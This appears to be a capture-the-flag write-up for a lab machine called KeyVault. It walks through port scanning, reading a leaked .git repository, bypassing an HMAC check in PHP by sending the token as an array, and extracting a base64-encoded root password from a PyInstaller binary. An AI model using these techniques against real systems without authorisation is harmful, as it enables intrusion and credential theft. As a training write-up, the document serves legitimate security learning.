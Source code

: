 # KeyVault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.160.207
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:46 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan too:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.207
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:47 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: KeyVault Password Manager &amp; Vault App with Single-Sign On ...
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-git: 
|   192.168.160.207:8080/.git/
|     Git repository found!
|     .git/config matched patterns 'key' 'user'
|     .gitignore matched patterns 'secret'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Added Files and .gitignore 
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: KeyVault - Password Manager
```

There was a `.git` repository which we could enumerate later.&#x20;

### Web + Git Enum

Port 80 hosted a website for a Password Manager:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

The site was rather static and had nothing interesting. Port 8080 had a login page:

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

Default credentials work, but we are redirected to this cryptic site:

<figure><img src="../../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

Let's take a look at the `.git` repository files. The logs of the website reveal that there's a `hmac.php` which mentions a bit more about the crypto used:

```
$ git log -p -2
diff --git a/hmac.php b/hmac.php
new file mode 100644
index 0000000..0e54e4a
--- /dev/null
+++ b/hmac.php
@@ -0,0 +1,18 @@
+<?php
+if (empty($_GET['h']) || empty($_GET['host'])) {
+   header('HTTP/1.0 400 Bad Request');
+   print("Code sent to Ray for Review Until Then this site is protected......");
+   die();
+}
+require("secret.php"); 
+if (isset($_GET['token'])) {
+   $secret = hash_hmac('sha256', $_GET['token'], $secret);
+}
+
+$hm = hash_hmac('sha256', $_GET['host'], $secret);
+if ($hm !== $_GET['h']){
+  header('HTTP/1.0 403 Forbidden');
+  print("extra security check failed");
+  die();
+}
+?>
```

### Hash Bypass

We are required to submit a `h`, `host` and `token` variable to this website. There's a `$secret` value being passed around. While googling for similar exploits online, I came across this site:

{% embed url="https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/" %}

The above resources details a similar exploit, where they submit `token[]=` to trigger an error within PHP to make the value of `$security` obsolete. Thus, the second `hash_hmac` would just produce the SHA-256 hash of `host`, allowing attackers to just specify a `host` and using the SHA-256 value of `host` as `h`.&#x20;

&#x20;We can use their parameters to bypass this check:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

Visiting `index.php`with the same parameters will show us a page with a password:

<figure><img src="../../../.gitbook/assets/image (5) (7).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `ray`:

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache-Restart --> Root Creds

Within the `/opt` directory, there's this file present:

{% code overflow="wrap" %}
```
ray@keyvault:/opt$ ls
apache-restart
ray@keyvault:/opt$ file apache-restart 
apache-restart: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
{% endcode %}

I ran the `binary` and on another `ssh` session, used `pspy64` to see the processes being run:

```
ray@keyvault:/opt$ ./apache-restart 
Restarting Apache Server without root....                                                    
                                                                                             
Password: 
Done
```

There was a password being keyed in. `pspy64` shows that `su` was run too:

```
2023/07/13 05:15:45 CMD: UID=1000 PID=4976   | ./apache-restart 
2023/07/13 05:15:45 CMD: UID=1000 PID=4977   | /bin/sh -c su -c '/bin/systemctl restart apache2'                                                                                          
2023/07/13 05:15:45 CMD: UID=0    PID=4978   | su -c /bin/systemctl restart apache2 
2023/07/13 05:15:45 CMD: UID=0    PID=4979   | (pachectl) 
2023/07/13 05:15:45 CMD: UID=0    PID=4981   | /usr/sbin/apache2 -k stop
```

Using `ltrace`, we can see the system calls makde and what is being written. However, the output is too long and difficult to analyse. I transferred this to my machine for further analysis. I ran `strings` on it and saw this bit:

```
blib-dynload/_asyncio.cpython-38-x86_64-linux-gnu.so
blib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_cn.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_hk.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_jp.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_kr.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_tw.cpython-38-x86_64-linux-gnu.so
blib-dynload/_contextvars.cpython-38-x86_64-linux-gnu.so
blib-dynload/_ctypes.cpython-38-x86_64-linux-gnu.so
blib-dynload/_decimal.cpython-38-x86_64-linux-gnu.so
<TRUNCATED>
pydata
```

Because there's Python data, this might be a Python compiled binary. We can use a Python Decompiler to extract the modules that are within this.&#x20;

{% embed url="https://github.com/extremecoders-re/pyinstxtractor/tree/master" %}

```
$ python3 extractor.py apache-restart
[+] Processing apache-restart
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 6807628 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: apache-restart.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: apache-restart

You can now use a python decompiler on the pyc files within the extracted directory
```

Then, we can run `strings` on the `.pyc` files:

```
$ strings apache-restart.pyc 
TXlwZXRkb2duYW1laXNqYWNrOTA5z
utf-8z+Restarting Apache Server without root.... 
z'su -c '/bin/systemctl restart apache2' 
wg333333
Done)
base64
time
password
        b64decode
decode
print
popen
write
sleep
apache-restart.py
<module>
```

There's a string here, and it is `base64`:

```
$ echo TXlwZXRkb2duYW1laXNqYWNrOTA5z | base64 -d
Mypetdognameisjack909
```

Using this, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

Rooted!
